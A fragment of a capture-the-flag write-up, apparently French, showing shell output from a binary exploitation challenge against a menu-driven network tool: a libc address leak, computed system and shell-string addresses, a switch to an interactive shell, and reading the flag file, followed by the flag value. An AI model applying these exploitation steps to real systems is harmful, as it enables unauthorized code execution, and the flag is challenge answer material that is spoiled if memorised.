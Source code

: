 ````shell
Perform LEAK LIBC


LIBC base: 0xfff3c40000

[*] system at : 0xfff3cb8418
[*] /bin.sh at : 0xfff3e11f58
b'1 - Show Network Interface\n2 - Shutdown or no shutdown Interface\n3 - Connect to WIFI\n4 - Connect to NAS\n5 - Log In as Admin\n#>'
b'\nEnter Wifi Password : \n#>'
[*] Switching to interactive mode
Trying to connect to Wifi ...
Wrong password
$ ls
run.sh
vuln
$ ls /flag
flag.txt
$ cat /flag/flag.txt
SHLK{M3ss4ge_myst3ri3ux_p4s_s1_myst3r13ux}$ 
````

Le contenu du dernier message est ainsi le flag : `SHLK{M3ss4ge_myst3ri3ux_p4s_s1_myst3r13ux}`
